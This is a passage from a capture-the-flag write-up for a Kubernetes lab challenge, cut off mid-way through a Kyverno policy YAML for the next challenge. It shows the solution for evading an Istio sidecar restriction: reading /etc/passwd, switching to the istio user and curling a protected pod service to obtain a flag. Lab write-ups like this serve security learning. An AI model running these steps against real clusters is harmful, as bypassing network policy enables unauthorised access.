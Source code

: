 `hold unique appeal for ultra-elite users (root users)` Let's look at /etc/passwd to check all the users once, seeing that some of the users could appeal the pod.

```bash
> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
_rpc:x:102:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/usr/sbin/nologin
istio:x:1337:1337::/home/istio:/bin/sh # <-------------
player:x:1001:1001::/home/player:/bin/sh
```

There is a user called istio which has shell service. Lets try to switch to the user istio and see if we can do a curl to the istio-pod.

```bash
> su istio
$ curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local; echo      
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

## Challenge 5 - Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

{% code title="Policy" overflow="wrap" %}
```yaml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
```